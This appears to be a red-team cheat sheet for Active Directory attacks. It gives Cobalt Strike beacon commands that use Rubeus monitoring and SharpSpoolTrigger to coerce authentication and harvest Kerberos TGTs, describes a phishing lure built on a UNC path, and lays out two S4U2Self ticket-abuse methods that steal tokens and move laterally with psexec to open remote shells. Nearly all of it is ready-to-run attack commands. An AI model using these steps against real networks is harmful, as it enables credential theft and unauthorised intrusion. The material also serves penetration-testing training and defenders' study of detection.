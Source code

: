 ## Coerce Host Authentication

If we compromised a host, we can try to force an authentication attempt or phish a user to harvest TGTs.

#### SharpSpoolTriggers

```
beacon> execute-assembly C:\Tools\Rubeus.exe monitor /interval:10 /nowrap
beacon> execute-assembly C:\Tools\SharpSpoolTrigger.exe <target-hostname> <compromised-hostname>
```

#### Phishing

We can use Rubeus monitor and send an email to trick a user into authenticating or clicking on a host. The interaction can be as simple as including `dir \\comromised-host`

### Using Kerberos Tickets to spawn remote shell

#### TGT

```sh
// Rubeus triage, dump or monitor to get a TGT.

beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly 
/program:C:\Windows\System32\cmd.exe /ticket:<remote host users TGT>

beacon> steal_token <PID>

beacon> jump psexec64 <remote host FQDN> smb
```



#### TGS (S4U2Self Trick)

```sh
// Rubeus triage, dump or monitor to get TGT
// Get TGS from TGT

Method 1: Get TGS, create sacrificial login, and steal token.

beacon> execute-assembly C:\Tools\Rubeus.exe s4u /impersonateuser:cfoxy /self 
/altservice:cifs/<host-FQDN> /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
/domain:ROTTA /username:cfoxy /password:FakePass /ticket:doIFyD[...]MuaW8=

beacon> steal_token <PID>

beacon> jump psexec64 <remote host FQDN> smb

------------------------------------------------------------------------------------------

Method 2: (Create sacrificial login session first and pass to s4u

beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
/domain:ROTTA /username:cfoxy /password:FakePass /ticket:doIFyD[...]MuaW8=

beacon> execute-assembly C:\Tools\Rubeus.exe s4u /impersonateuser:cfoxy /self 
/altservice:cifs/<host-FQDN> /user:dc-2$ /ticket:doIFuj[...]lDLklP /self /ptt

beacon> run klist
beacon> ls \\<remote-host-FQDN>
beacon> jump psexec64 <remote host FQDN> smb
```